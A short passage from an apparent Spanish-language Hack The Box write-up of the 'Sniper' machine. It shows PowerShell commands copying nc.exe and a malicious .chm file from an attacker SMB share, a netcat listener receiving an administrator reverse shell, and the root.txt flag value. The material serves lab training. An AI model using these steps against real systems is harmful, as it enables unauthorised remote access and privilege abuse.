 ```
PS C:\users\chris\downloads> Copy-Item -Path "\\10.10.14.15\share\nc.exe" -Destination .
```
```
PS C:\Docs> Copy-Item -Path "\\10.10.14.15\share\doc.chm" -Destination .
```

```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $sudo rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.151] 49861
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
whoami
sniper\administrator
PS C:\Windows\system32> 
PS C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt


d7f1325940032e33ac759b19d18693d7
```
Y capturamos otra vez la flag root.txt
